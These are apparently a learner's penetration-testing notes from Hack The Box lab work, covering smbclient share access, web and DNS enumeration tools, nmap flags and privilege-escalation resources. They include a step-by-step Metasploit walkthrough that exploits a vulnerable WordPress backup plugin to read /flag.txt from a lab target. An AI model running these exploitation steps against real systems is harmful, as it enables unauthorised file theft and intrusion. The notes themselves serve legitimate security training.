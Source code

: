 ## SMB shares

To connect to a SMB share over a network as the user Bob
```
smbclient -U bob \\\\10.129.74.37\\users
```
To just look at the users on the network, use this command
```
smbclient -N -L \\\*ip-adress*
```

# Web Enumeration

## Se any hidden files or directories on a webserver that is not intended for public access. 

Tools: 

https://github.com/ffuf/ffuf

https://github.com/OJ/gobuster

## HTTP status codes

https://en.wikipedia.org/wiki/List_of_HTTP_status_codes

## DNS Subdomain Enumeration

Contains many useful lists for fuzzing and exploitation: https://github.com/danielmiessler/SecLists

Take screenshots of target web applications, fingerprint them, and indentify possible default credentials: https://github.com/FortyNorthSecurity/EyeWitness

## Video to help

https://www.youtube.com/watch?v=6Ekm0hXfvME

## First hack with Metasploit

Q: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.
<br>

```
msf6 > search simple backup
```
<br>

```
msf6 > use 0
```
<br>

```
msf6 > options
```
<br>

```
msf6 > set RHOST *ip-adress
```
<br>

```
msf6 > set RPORT *port
```
<br>

*this is because the question is asking us to try and get the content of the /flag.txt
```
msf6 > set FILEPATH /flag.txt
```
<br>

```
msf6 > run
```
<br>


```
cd /home/kali/.msf4/loot
```
<br>

```
ls
```
<br>


```
cat *file that you have displayed with the ls command
```
<br>

And there you have your flag. Your first hack


## Useful nmap commands list

---

Nmap dash list

-sV = Version scan

-sC = Specify Nmap scripts

-p- = Scans all 65,535 TCP ports

-sV --script=banner = Banner grabbing

---
<br>

To learn more about nmap: https://academy.hackthebox.com/module/details/19

---

## Privilege Ecalation

### PrivEsc Checklists

Checklists for Linux and Windows, but contains more info: https://book.hacktricks.xyz/welcome/readme

Also a checklist: https://github.com/swisskyrepo/PayloadsAllTheThings

 ### Enumeration Scripts
 
 Linux enumeration scripts: https://github.com/rebootuser/LinEnum
 
 Linux Privilege Escalation Check Script: https://github.com/sleventyeleven/linuxprivchecker
 
 For windows: https://github.com/GhostPack/Seatbelt
 
 https://github.com/411Hall/JAWS
 


